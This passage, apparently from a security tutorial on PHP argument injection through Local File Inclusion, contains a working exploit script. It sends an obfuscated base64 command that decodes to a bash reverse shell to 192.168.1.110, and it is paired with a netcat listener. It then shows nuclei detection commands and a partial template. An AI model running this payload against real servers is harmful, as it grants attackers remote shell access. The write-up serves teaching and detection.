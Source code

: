 ```python3
# inject the command
conn = http.client.HTTPConnection(host, port)
cmd = urllib.parse.quote('YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExMC8yMDMwIDA+JjEiCg==')
#call the file
conn.request("GET", f"/index.php?file=/tmp/h4ndsh.php&cmd=echo+{cmd}|base64+-d|bash")
conn.close()
```

Once we have the script ready, we should open a listener and then execute the script in python3.

```bash
nc -lvnp 2030
```

```bash
python3 request.py
```

And we successfully establish a connection.

![reverse shell](netcat_connection.png "Reverse Shell")


# Real World

This detection does not necessarily imply that the web service is vulnerable. As mentioned earlier, the presence of a Local File Inclusion (LFI) vulnerability is required for the successful execution of the process outlined above, and each case may vary. However, to identify systems running PHP versions <= 7.3, we can utilize [nuclei](https://github.com/projectdiscovery/nuclei). This tool is capable of scanning for various vulnerabilities, including Remote Code Execution (RCE), SQL injection, and cross-site scripting (XSS), providing us with insights into potential security risks.

```bash
nuclei -u <target> -tags phpinfo -nc -silent
```

I developed a template to detect if argv and argc are active and if argument injection is working.

```yaml
id: check-register_argc_argv
info:
  name: Check register_argc_argv
  author: h4ndsh
  severity: high

http:
  - method: GET
    path:
      - "{{BaseURL}}?a805841404a60ccf326f0dbb006dc811"
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: word
        words:
```